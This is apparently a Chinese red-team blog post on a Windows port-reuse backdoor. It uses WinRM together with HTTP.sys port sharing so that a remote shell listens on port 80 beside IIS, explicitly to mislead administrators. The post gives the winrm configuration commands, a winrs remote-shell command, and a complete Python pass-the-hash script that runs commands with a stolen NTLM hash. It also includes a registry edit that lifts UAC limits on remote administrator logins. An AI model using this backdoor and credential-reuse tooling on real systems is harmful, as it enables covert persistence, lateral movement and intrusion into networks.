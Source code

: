```yaml
---
layout:     post
title:    端口复用技术（上）-winRM
subtitle:   windows下的端口复用技术
date:       2019-11-05
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 红队
    - 渗透测试
    - 内网
---
```

# 端口复用技术（上）-winRM

## 原理
基本原理是使用Windows 的远程管理管理服务WinRM，组合HTTP.sys驱动自带的端口复用功能，一起实现正向的端口复用后门。   
- WinRM服务   
WinRM全称是Windows Remote Management，是微软服务器硬件管理功能的一部分，能够对本地或远程的服务器进行管理。WinRM服务能够让管理员远程登录Windows操作系统，获得一个类似Telnet的交互式命令行shell，而底层通讯协议使用的是HTTP。   
- HTTP.sys驱动   
HTTP.sys驱动是IIS的主要组成部分，主要负责HTTP协议相关的处理，它有一个重要的功能叫Port Sharing，即端口共享。所有基于HTTP.sys驱动的HTTP应用可以共享同一个端口，只需要各自注册的url前缀不一样即可。  

系统默认有10个DACl，可以通过netsh http show urlacl看到具体内容，其中5985是http端口，5986是https。  

## 开启WinRM服务
在2012及以上的服务器版本中，默认开启，监听端口5985，可以不用手动开启。  
对于Windows 2008来说，需要使用命令来启动WinRM服务，运行后会自动添加防火墙例外规则，放行5985端口。   
```
winrm quickconfig -q
```  
此时默认端口是5985，需要设置成80端口（默认的IIS）。  
```
winrm set winrm/config/Listener?Address=*+Transport=HTTP @{Port="80"}
winrm set winrm/config/Listener?Address=*+Transport=HTTP @{URLPrefix="abc"}  # 设置URI
```
![191105_1](/img/191105_setport.png)  
我这里测试的是一台2012，默认开了就改下端口。直接执行下面的命令：    
```
winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"} # 新增80端口监听
winrm set winrm/config/service @{EnableCompatibilityHttpListener="false"} # 删除80端口监听 
```
![191105_2](/img/191105_setenable.png)  
其他一些常用的命令：  
```
netsh http show servicestate # 查看注册的URL
winrm e winrm/config/listener # 查看监听设置
winrm get winrm/config # 查看配置
```
此时5985端口是保留的，在一些特殊情况下可以修改默认端口为80，用于迷惑管理员，正常2012以上版本的还是建议保留5985。  
![191105_3](/img/191105_netstat.png)  
此时访问端口80，还是正常的iis服务。  
![191105_4](/img/191105_iis.png)  

## 客户端连接  
本地需要连接WinRM服务时，首先也需要配置启动WinRM服务，然后需要设置信任连接的主机，执行以下两条命令即可。  
```
winrm quickconfig -q 
winrm set winrm/config/Client @{TrustedHosts="*"}
```
然后设置明文连接执行命令，格式如下：  
```
winrs -r:http://xxx.xxx.xxx.xxx -u:administrator -p:password whoami
```
![](/img/191105_winrs.png)  
将执行命令whoami替换成cmd，可以得到一个交互式的shell。  
现在很多情况下是无法读到明文，只能读到NTLM-hash，这里借鉴别的源码给出python实现的winrs连接脚本。  
```
# encoding: utf-8
import argparse
import urlparse
import requests
import winrm
import sys


def GetUrlState(url):
    r = requests.get(url)
    if r.status_code == 405:
        return True
    else:
        return False


def ParseUrl(url):
    parse = urlparse.urlparse(url)
    uri = parse.path
    ip = parse.netloc
    port = 80 if parse.port is None else parse.port
    return ip,port,uri


def RunCmd(ip,port,uri,cmd,**kwargs):
    if kwargs.get("hashpasswd"):
        try:
            Windwoscmd = winrm.Session('http://' + ip + ":" + str(port) + uri, auth=(kwargs.get("user"), '00000000000000000000000000000000:'+kwargs.get("hashpasswd")),
                                   transport="ntlm", server_cert_validation='ignore')
            Result = Windwoscmd.run_cmd(str(cmd))
            sys.stdout.write(Result.std_err.decode('gbk'))
            sys.stdout.write(Result.std_out.decode('gbk'))
            sys.stdout.write('\n')
        except Exception as ex:
            print "[+]> Hash发生错误:" + str(ex)
    else:
        try:
            Windwoscmd = winrm.Session('http://' + ip + ":" + str(port) + uri, auth=(kwargs.get("user"), kwargs.get("passwd")),
                                       transport="basic", server_cert_validation='ignore')
            Result = Windwoscmd.run_cmd(str(cmd))
            sys.stdout.write(Result.std_err.decode('gbk'))
            sys.stdout.write(Result.std_out.decode('gbk'))
            sys.stdout.write('\n')
        except Exception as ex:
            print "[+]> Pass发生错误:" + str(ex)


if __name__ == '__main__':
    #windows 2008上面是LM-HASH:NTLM-HASH的方式，需要修改源代码，去掉上面的一堆0加上冒号
    example_text = '''example:
    python winrs.py -r http://192.168.1.2:5985/wsman -u administrator -H xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx -c "whoami"
    '''
    parser = argparse.ArgumentParser(description='WinRMTTools, only work >= Windows Server 2012',epilog=example_text)
    parser.add_argument("-r", "--remote", metavar="", required=True, help="http://192.168.1.26:5985/wsman")
    parser.add_argument("-u", "--user", metavar="", help="username", default="administrator")
    parser.add_argument("-p", "--passwd", metavar="", help="password", default="")
    parser.add_argument("-H", "--hashpasswd", metavar="", help="NTLM-Hash", default="")
    parser.add_argument("-c", "--command", metavar="", help="cmd", default="whoami")
    args = parser.parse_args()
    if GetUrlState(args.remote):
        ip, port, uri = ParseUrl(args.remote)
        RunCmd(ip, port, uri, args.command, user=args.user, passwd=args.passwd, hashpasswd=args.hashpasswd)
    else:
        print "[*]> Windwos WinRM服务未开启请检查服务是否开启！"
```
使用的时候直接：  
```
python winrs.py -r http://192.168.1.2:5985/wsman -u administrator -H xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx -c "whoami"
```

## 注意问题
UAC问题  
WinRM服务也是受UAC影响的，所以本地管理员用户组里面只有administrator可以登录，其他管理员用户是没法远程登录WinRM的。要允许本地管理员组的其他用户登录WinRM，需要修改注册表设置。  
```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
修改后，就可以用其他管理员进行登录，且返回的权限也是最高的权限。  
